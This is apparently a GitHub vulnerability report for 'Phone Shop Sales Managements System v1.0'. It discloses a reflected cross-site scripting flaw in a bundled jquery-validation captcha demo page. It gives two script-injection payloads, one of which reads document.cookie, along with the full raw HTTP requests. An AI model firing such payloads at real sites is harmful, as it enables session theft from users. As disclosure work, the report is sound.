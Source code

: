 # Phone Shop Sales Managements System v1.0 has Cross-site scripting (reflected)

BUG_Author: Blair

Vulnerability File: /osms/assets/plugins/jquery-validation-1.11.1/demo/captcha/index.php

Payload1:http://localhost/osms/assets/plugins/jquery-validation-1.11.1/demo/captcha/index.php/"><script>alert(1111)</script>?captcha=1&submit=Check

```
GET /osms/assets/plugins/jquery-validation-1.11.1/demo/captcha/index.php/%22%3E%3Cscript%3Ealert(1111)%3C/script%3E?captcha=1&submit=Check HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=6fcav63hl60icb4n7tsvv0ns5k
Connection: close
```

![image](https://github.com/blairting/bug_report/blob/main/picture/1.png)

Payload2:http://localhost/osms/assets/plugins/jquery-validation-1.11.1/demo/captcha/index.php/"><script>alert(document.cookie)</script>?captcha=1&submit=Check

```
GET /osms/assets/plugins/jquery-validation-1.11.1/demo/captcha/index.php/%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E?captcha=1&submit=Check HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

![image](https://github.com/blairting/bug_report/blob/main/picture/2.png)
